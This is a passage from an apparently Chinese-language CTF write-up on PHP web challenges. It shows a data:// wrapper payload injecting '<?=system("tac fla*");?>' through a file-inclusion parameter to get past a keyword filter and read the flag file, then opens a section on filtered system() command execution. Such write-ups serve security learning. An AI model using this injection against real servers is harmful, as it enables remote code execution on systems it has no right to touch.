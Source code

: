 ![image-20231216120352629](照片/image-20231216120352629.png)

过滤flag, 但是文件包含处拼接了.php

38可以接着用

```
/?c=data:text/plain,<?=system("tac fla*");?>
```

![image-20231216120133499](照片/image-20231216120133499.png)

得到flag

------

<div style="page-break-after:always"></div>

### 类型三

接受并过滤传入的变量拼接命令执行（system函数）和类型一的区别是题目中已经给了sysytem函数

![image-20231216125607107](照片/image-20231216125607107.png)

就不需要我们重新构建了

#### web42
